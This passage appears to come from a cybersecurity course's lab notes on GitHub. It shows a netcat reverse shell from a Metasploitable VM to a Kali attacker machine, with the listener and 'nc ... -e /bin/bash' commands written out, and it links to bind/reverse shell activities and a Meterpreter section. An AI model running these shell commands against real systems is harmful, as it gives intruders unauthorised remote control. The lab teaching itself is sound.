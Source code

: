 1. Start a listener on the attacker's Kali machine.

   - On Kali Linux, run the following command:

      - `nc -lvnp 4444`


2. On the Metasploitable VM, run the following command:

   - `nc 192.168.0.8 4444 -e /bin/bash`

     -  `nc`: Starts the listener on port `4444`.
     - `-e /bin/bash`: Provides a shell to the connecting machine, in this case the attacking Kali machine.

   ![REV 2](Images/REVERSE_2.png)

3. Back on the Kali machine, you should see a successful connection.

    - Demonstrate code execution by running the following on the Kali machine:

       - `whoami`
       - `ifconfig`

    - This demonstrates that the shell on the target is active and responding.

       ![REV 1](Images/REVERSE_1.png)

    - This  means that you have successfully established a connection between the attacker and target machines.


### 03. Activity: Bind and Reverse Shells and Ncat  

- [Activity File: Bind and Reverse Shell and Ncat](Activities/03_Bind_and_Reverse/Unsolved/README.md)


### 04. Activity Review: Bind and Reverse Shells and Ncat  

- [Solution File: Bind and Reverse Shell and Ncat](Activities/03_Bind_and_Reverse/Solved/README.md)

### 05.  First Steps with Meterpreter

Metasploit is a convenient tool suite that automates entire steps of engagements and enables complex and advanced techniques. 
